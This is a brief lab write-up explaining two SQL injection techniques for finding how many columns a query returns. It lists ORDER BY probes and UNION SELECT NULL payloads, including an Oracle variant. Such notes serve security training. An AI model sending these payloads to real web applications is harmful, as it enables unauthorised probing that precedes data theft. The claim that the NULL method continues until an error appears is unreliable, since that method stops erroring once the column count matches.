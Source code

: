 # Determining the number of columns required

Vadim Polovnikov | October 30, 2020
> Lab: **_SQL injection UNION attack, determining the number of columns returned by the query_**

---

Two ways of examining a number of columns used by a database:

1. Using ORDER BY clause

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
/*etc*/
```

Use the technique untill you get a SQL error.

2. Injecting NULL values

```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL FROM DUAL /* in case of the Oracle db
' UNION SELECT NULL, NULL, NULL
/*etc*/
```

Use the technique untill you get a SQL error.

**Using both techniques you can identify the number of columns the database have.**
